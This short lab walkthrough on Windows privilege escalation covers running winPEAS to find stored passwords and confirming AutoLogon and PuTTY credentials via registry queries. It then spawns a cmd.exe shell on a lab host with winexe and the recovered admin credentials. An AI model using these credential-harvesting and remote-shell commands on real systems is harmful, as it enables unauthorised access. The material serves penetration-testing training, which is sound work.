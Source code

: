 1.Use winPEAS to check common password locations:
> .\winPEASany.exe quiet filesinfo userinfo


(the final checks will take a long time to complete)


2.The results show both AutoLogon credentials and Putty session credentials for the admin user
(admin/password123).


3.We can verify these manually:

> reg query "HKLM\Software\Microsoft\Windows
NT\CurrentVersion\winlogon"


> reg query
"HKCU\Software\SimonTatham\PuTTY\Sessions" /s


4.On Kali, we can use the winexe command to spawn a shell using these
credentials:

winexe -U 'admin%password123' //192.168.1.22
cmd.exe